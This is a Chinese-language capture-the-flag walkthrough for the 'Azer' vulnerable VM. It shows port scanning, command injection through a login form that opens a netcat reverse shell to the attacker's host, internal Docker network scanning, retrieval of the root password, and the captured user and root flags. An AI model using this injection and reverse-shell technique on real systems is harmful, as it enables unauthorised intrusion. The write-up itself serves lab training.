 # Azer

:::note

[Linux VM] [Tested on VirtualBox and VMWare.] created by || tasiyanci

⏲️ Release Date // 2024-02-24

✔️ MD5 // 467223b33d6d8150a50b206401236da7

☠ Root // 2

💀 User // 10

📝Notes //
My birthday gift to community.

:::

## 靶机启动

靶机 IP

```plaintext
192.168.56.120
```

## nmap 信息搜集

```plaintext
Nmap scan report for 192.168.56.120
Host is up (0.00044s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.57 ((Debian))
|_http-title: L&#214;SEV | L&#246;semili &#199;ocuklar Vakf\xC4\xB1
|_http-server-header: Apache/2.4.57 (Debian)
3000/tcp open  http    Node.js (Express middleware)
|_http-title: Login Page
```

## web 服务 Port-80

尝试进行目录扫描，但是未得到有价值信息

## web 服务 Port-3000

发现一个登录框，首先先简单尝试一下

```plaintext
a:a
Error executing bash script: Command failed: /home/azer/get.sh a a fatal: not a git repository (or any of the parent directories): .git
```

看到了疑似有脚本执行的部分，尝试执行命令注入执行反向 shell

```shell
nc 192.168.56.102 9999 -e /bin/bash : nc 192.168.56.102 9999 -e /bin/bash
```

成功得到回连的 shell

## User - azer

```shell
┌─[randark@parrot]─[~]
└──╼ $ pwncat-cs -lp 9999
[15:35:38] Welcome to pwncat 🐈!
[15:45:41] received connection from 192.168.56.120:46168
[15:45:42] 192.168.56.120:46168: registered new host w/ db
(local) pwncat$ back
(remote) azer@azer:/home/azer$ whoami
azer
```

### flag - user

```plaintext
0d2856d69dc348b3af80a0eed67c7502
```

### 环境探测

尝试使用 `PEASS-ng` 执行自动化探测

发现以下高价值信息

```plaintext
                                   ╔═══════════╗
═══════════════════════════════════╣ Container ╠═══════════════════════════════════
                                   ╚═══════════╝
╔══════════╣ Container related tools present (if any):
/usr/bin/docker
/usr/bin/runc
╔══════════╣ Am I Containered?
╔══════════╣ Container details
═╣ Is this a container? ........... No
═╣ Any running containers? ........ No

╔══════════╣ Interfaces
default         0.0.0.0
loopback        127.0.0.0
link-local      169.254.0.0

br-333bcb432cd5: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.10.10.1  netmask 255.255.255.0  broadcast 10.10.10.255
        inet6 fe80::42:77ff:fe23:89eb  prefixlen 64  scopeid 0x20<link>
        ether 02:42:77:23:89:eb  txqueuelen 0  (Ethernet)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 8  bytes 800 (800.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

docker0: flags=4099<UP,BROADCAST,MULTICAST>  mtu 1500
        inet 172.17.0.1  netmask 255.255.0.0  broadcast 172.17.255.255
        ether 02:42:b6:c5:b2:49  txqueuelen 0  (Ethernet)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

enp0s3: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.56.120  netmask 255.255.255.0  broadcast 192.168.56.255
        inet6 fe80::a00:27ff:fe04:638a  prefixlen 64  scopeid 0x20<link>
        ether 08:00:27:04:63:8a  txqueuelen 1000  (Ethernet)
        RX packets 13943  bytes 1776686 (1.6 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 24705  bytes 36362126 (34.6 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

vethf99cdf9: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet6 fe80::5437:acff:fec2:3a19  prefixlen 64  scopeid 0x20<link>
        ether 56:37:ac:c2:3a:19  txqueuelen 0  (Ethernet)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 20  bytes 1680 (1.6 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

可知靶机上存在 Docker 环境，但是由于权限限制，没有办法执行 `docker ps` 查看目前执行的容器信息

已知 docker 相关的网桥地址有

```plaintext
10.10.10.1
172.17.0.1
```

### 发现 Docker 容器服务

直接借助 [shadow1ng/fscan: 一款内网综合扫描工具，方便一键自动化、全方位漏扫扫描。](https://github.com/shadow1ng/fscan) 对 Docker 网桥进行扫描

```shell
(remote) azer@azer:/home/azer$ ./fscan -np -h 10.10.10.1/24

   ___                              _
  / _ \     ___  ___ _ __ __ _  ___| | __
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <
\____/     |___/\___|_|  \__,_|\___|_|\_\
                     fscan version: 1.8.3
start infoscan
10.10.10.10:80 open
10.10.10.1:80 open
10.10.10.1:3000 open
```

可以发现除了本机以外，还有 `10.10.10.10:80` 这个服务存在

尝试访问

```shell
(remote) azer@azer:/home/azer$ curl 10.10.10.10:80
.:.AzerBulbul.:.
```

所得到的就是 root 用户的密码

## User - root

```shell
(remote) azer@azer:/home/azer$ su root
Password:
root@azer:/home/azer# whoami
root
```

### flag - root

```shell
root@azer:~# cat root.txt
b5d96aec2d5f1541c5e7910ccab527d8
```

